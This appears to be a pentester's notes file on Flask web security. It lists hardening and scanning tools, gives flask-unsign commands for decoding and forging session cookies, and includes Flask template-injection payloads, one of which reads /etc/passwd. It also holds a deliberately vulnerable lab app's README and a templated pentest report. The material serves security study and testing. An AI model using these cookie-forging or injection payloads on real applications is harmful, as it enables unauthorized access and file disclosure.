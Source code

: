 
##
#
https://medium.com/swlh/hacking-flask-applications-939eae4bffed
#
##


## Web Framework Hardening

- [Secure.py](https://github.com/cakinney/secure.py) - secure.py 🔒 is a lightweight package that adds optional security headers and cookie attributes for Python web frameworks.
- [Flask-HTTPAuth](https://github.com/miguelgrinberg/flask-httpauth/) - Simple extension that provides Basic, Digest and Token HTTP authentication for Flask routes.
- [Flask Talisman](https://github.com/GoogleCloudPlatform/flask-talisman) - Talisman is a small Flask extension that handles setting HTTP headers that can help protect against a few common web application security issues.
- [Django Session CSRF](https://github.com/mozilla/django-session-csrf) - CSRF protection for Django without cookies.

## Multi tools

- [hawkeye](https://github.com/hawkeyesec/scanner-cli) - Multi purpose security/vulnerability/risk scanning tool supporting Ruby, Node.js, Python, PHP and Java.
- [GuardRails](https://github.com/apps/guardrails) - A GitHub App that gives you instant security feedback in your Pull Requests.
- [Hubble](https://github.com/hubblestack/hubble) - Hubble is a modular, open-source security compliance framework.
- [Salus](https://github.com/coinbase/salus) - Multi purpose security scanning tool supporting Ruby, Node, Python and Go.

## Static Code Analysis

- [Bandit](https://github.com/PyCQA/bandit) - Bandit is a tool designed to find common security issues in Python code.
- [Pyt](https://github.com/python-security/pyt) - A Static Analysis Tool for Detecting Security Vulnerabilities in Python Web Applications.
- [Detect Secrets](https://libraries.io/pypi/detect-secrets) - An enterprise friendly way of detecting and preventing secrets in code.

## Vulnerabilities and Security Advisories

- [Safety](https://github.com/pyupio/safety) - Safety checks your installed dependencies for known security vulnerabilities.
- [snyk Vulnerability DB](https://snyk.io/vuln?type=pip) - Commercial but free listing of known vulnerabilities in libraries.
- [Common Vulnerabilities and Exposures](https://www.cvedetails.com/vulnerability-list/vendor_id-10210/product_id-18230/Python-Python.html) - Vulnerabilities that were assigned a CVE. Covers the language and packages.
- [National Vulnerability Database](https://nvd.nist.gov/vuln/search/results?form_type=Basic&results_type=overview&query=python&search_type=all) - Python known vulnerabilities in the National Vulnerability Database.
- 
```

# https://github.com/Paradoxis/Flask-Unsign

```
pip3 install flask-unsign
flask-unsign
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
flask-unsign --decode --server 'https://www.example.com/login'
flask-unsign --unsign --cookie < cookie.txt
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'

# Python Flask SSTI Payloads and tricks

* {{url_for.globals}}
* {{request.environ}}
* {{config}}
* {{url_for.__globals__.__builtins__.open('/etc/passwd').read()}}
* {{self}}
* request|attr('class') == request.class == request[\x5f\x5fclass\x5f\x5f]      
```

Vulnerable-Flask-App
Erlik 2 - Vulnerable-Flask-App

Tested - Kali 2022.1

```
Description
It is a vulnerable Flask Web App. It is a lab environment created for people who want to improve themselves in the field of web penetration testing.

Features
It contains the following vulnerabilities.

-HTML Injection

-XSS

-SSTI

-SQL Injection

-Information Disclosure

-Command Injection

-Brute Force

-Deserialization

-Broken Authentication

-DOS

-File Upload

Installation
git clone https://github.com/anil-yelken/Vulnerable-Flask-App

cd Vulnerable-Flask-App

sudo pip3 install -r requirements.txt

Usage
python3 vulnerable-flask-app.py
```


Contact
https://twitter.com/anilyelken06

https://medium.com/@anilyelken



######
######

Pentest Report for [Application Name]
Summary
In this report, we present the findings of a penetration test conducted on the [Application Name] Flask application. The goal of this test was to identify any vulnerabilities or weaknesses that could be exploited by an attacker.

Methodology
The test was conducted using a combination of automated and manual techniques. Automated tools were used to scan for common vulnerabilities, such as SQL injection and cross-site scripting (XSS). Manual testing was performed to identify more complex vulnerabilities and to verify the results of the automated scans.

Findings
High Severity Issues
Issue 1: SQL Injection
Description
We identified a SQL injection vulnerability in the login functionality of the application. An attacker could exploit this vulnerability to bypass authentication and gain unauthorized access to the application's database.

Recommendation
We recommend that the application's developers implement parameterized queries to prevent SQL injection attacks.

Issue 2: Cross-Site Scripting (XSS)
Description
We identified a reflected XSS vulnerability in the search functionality of the application. An attacker could exploit this vulnerability to execute malicious scripts in the context of a victim's browser.

Recommendation
We recommend that the application's developers sanitize user input and encode output to prevent XSS attacks.

Medium Severity Issues
Issue 1: Session Fixation
Description
We identified a session fixation vulnerability in the application. An attacker could exploit this vulnerability to hijack a victim's session and gain unauthorized access to the application.

Recommendation
We recommend that the application's developers regenerate session IDs upon authentication.

Issue 2: Insecure Communications
Description
We identified that the application is not using HTTPS to encrypt communications. This could allow an attacker to intercept and modify traffic, including authentication credentials.

Recommendation
We recommend that the application's developers implement HTTPS to secure communications.

Low Severity Issues
Issue 1: Information Leakage
Description
We identified that error messages are disclosing sensitive information, including database and server names.

Recommendation
We recommend that the application's developers review error handling and remove any sensitive information from error messages.

Conclusion
Overall, we identified several vulnerabilities in the [Application Name] Flask application, including a SQL injection vulnerability and a reflected XSS vulnerability. We recommend that the application's developers address these vulnerabilities to prevent potential attacks. Additionally, we recommend that the application's developers review and improve the application's security posture to prevent similar vulnerabilities in the future


#############
#############
